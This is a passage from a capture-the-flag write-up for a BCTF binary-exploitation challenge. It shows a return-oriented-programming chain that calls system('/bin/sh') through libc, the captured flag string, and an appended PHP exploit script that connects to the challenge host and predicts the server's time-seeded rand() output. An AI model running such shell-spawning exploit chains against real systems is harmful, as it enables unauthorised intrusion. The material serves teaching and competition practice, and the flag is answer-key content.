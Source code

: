 ## Getting a shell

With the libc in hand, it becomes straightforward to just call
`system("/bin/sh")` :

```php
$chain = [
	POPRDI, $libc + BINSH,
	$libc + SYSTEM,
];
```


**Flag**: `BCTF{I_guess_time_was_0n_y0ur_side_this_time}`

## Appendices
### pwn.php

```php
#!/usr/bin/php
<?php // vim: filetype=php
require_once "/mnt/ctf/tools/pwn/phplib/tubes/Socket.php";

const POPRDI = 0x004015c3;
const PUTS   = 0x00401040;

const BINSH  = 0x00181519;
const SYSTEM = 0x000449c0;

const HOST = "pwn.institute";
const PORT = 41336;

printf("[*] Creating process\n");
$time = microtime(true);

$t = new Socket(HOST, PORT);
$date = strftime("%Y-%m-%d %H:%M:%S"); // it's okay because we use NTP ;-)
$t->expectLine("Hello there! It's $date and the weather looks pretty nice!");

//$t->expect("Hello there! It's ");
//$date = $t->read(strlen("2020-09-25 21:26:35"));
//$t->expectLine(" and the weather looks pretty nice!");

$t->expectLine("");
$t->expectLine("");
$t->expectLine("We should play a game of the mind!");
$t->expect("> ");

$ffi = FFI::load("rand.h");

printf("[+] Done in %f seconds\n", microtime(true) - $time);
printf("\n");

$time = strtotime($date);
$ffi->srand($time);
$ffi->rand(); // player
$ffi->rand(); // score

$t->expectLine("What do you want to do?");
$t->expectLine(" 1) Show Highscore");
$t->expectLine(" 2) Play the game");
$t->expectLine(" 3) Exit");
$t->expect("> ");
$t->write("2\n");
```